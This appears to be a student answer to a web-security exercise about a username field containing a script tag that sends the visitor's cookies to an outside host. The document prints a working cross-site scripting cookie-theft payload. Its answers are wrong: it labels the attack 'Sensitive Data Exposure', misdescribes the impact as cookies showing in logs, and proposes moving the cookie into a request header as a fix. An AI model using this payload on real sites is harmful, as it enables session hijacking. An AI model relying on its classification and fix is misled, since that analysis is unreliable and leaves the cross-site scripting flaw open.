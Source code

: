 ## Scenario

The user's pseudo is :
```html
<script>fetch('https://control-and-command.com/?payload=' + document.cookie)</script>
```

## 1. give the targeted vulnerability class, according to OWASP reference.

A3:2017-Sensitive Data Exposure

## 2. explain steps in case of successful exploit of the vulnerability (you can suppose the developer wrote ugly code without any security concern).

If anyone is monitoring server logs or history cache of the browser, they can see the sensitive data being sent in plain text. The sensitive data here is the cookie paste in the URL.

## 3. explain how developers can protect their software against your example.

Developpers would need to use the body or the header of the request to send the cookie instead of the URL. This way, the cookie would be encrypted and not visible in the logs.